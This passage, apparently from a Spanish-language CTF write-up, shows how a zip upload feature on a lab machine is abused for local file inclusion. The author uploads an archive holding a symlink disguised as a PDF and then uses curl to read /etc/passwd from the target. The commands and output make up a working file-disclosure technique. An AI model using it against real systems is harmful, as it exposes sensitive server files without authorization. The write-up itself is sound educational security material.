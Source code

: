 Y podemos ver el archivo PDF.
![Write-up Image](images/Screenshot_5.png)

# LFI 1
Después de intentar burlar la subida del archivo, me encontré con este [video](https://www.youtube.com/watch?v=mnUaDCNaYwg).

Donde podemos conseguir un LFI a través de enlaces simbólicos.

Vamos a crear una prueba de concepto, haciendo un enlace simbólico llamado `test.pdf` al `/etc/passwd`

```shell
$ ln -s /etc/passwd test.pdf
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/zipping/content]
└──╼ [★]$ ls
test.pdf
```

Ahora creamos el archivo .zip
```shell
[★]$ zip -r --symlink test.zip *
  adding: test.pdf (deflated 65%)
```

Y ahora solicitando este archivo por curl...
```shell
 curl http://10.129.229.87/uploads/e8e7b570702ae4e2572f607419225362/test.pdf
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```